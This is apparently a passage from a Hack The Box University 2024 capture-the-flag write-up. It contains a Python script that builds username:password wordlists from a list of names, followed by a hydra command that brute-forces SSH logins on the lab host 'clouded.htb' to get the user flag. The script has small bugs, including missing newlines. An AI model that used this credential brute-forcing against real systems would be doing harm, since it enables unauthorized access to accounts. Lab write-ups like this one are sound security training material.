 ```py
#!/usr/bin/env python3
import sys
import os.path
FILE_USERS = open("users_wordlist.txt", "w")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("usage: {} names.txt".format((sys.argv[0])))
        sys.exit(0)

    if not os.path.exists(sys.argv[1]):
        print("{} not found".format(sys.argv[1]))
        sys.exit(0)

    for line in open(sys.argv[1]):
        tokens = line.split(" ")

        # skip empty lines
        if len(tokens) < 1:
            continue

        fname = tokens[0].lower()
        lname = tokens[1].lower()
        passwd = tokens[2]
        FILE_USERS.write(fname + lname + ":"+passwd)           # johndoe
        FILE_USERS.write(lname + fname+ ":"+passwd)           # doejohn
        FILE_USERS.write(fname + "." + lname+ ":"+passwd)     # john.doe
        FILE_USERS.write(lname + "." + fname+ ":"+passwd)     # doe.john
        FILE_USERS.write(lname + fname[0]+ ":"+passwd)        # doej
        FILE_USERS.write(fname[0] + lname+ ":"+passwd)        # jdoe
        FILE_USERS.write(lname[0] + fname+ ":"+passwd)        # djoe
        FILE_USERS.write(fname[0] + "." + lname+ ":"+passwd)  # j.doe
        FILE_USERS.write(lname[0] + "." + fname+ ":"+passwd)  # d.john
        FILE_USERS.write(fname+ ":"+passwd)                   # john
        FILE_USERS.write(lname+ ":"+passwd)                   # joe
FILE_USERS.close()
```
We use hydra to bruteforce: `hydra -C creds.txt ssh://clouded.htb`

![hydra](/HTB-UNIVERSITY-2024/images/hydra.png)

We can now ssh login onto the machine and find the first flag !

![userflag](/HTB-UNIVERSITY-2024/images/userflag.png)

## Root flag
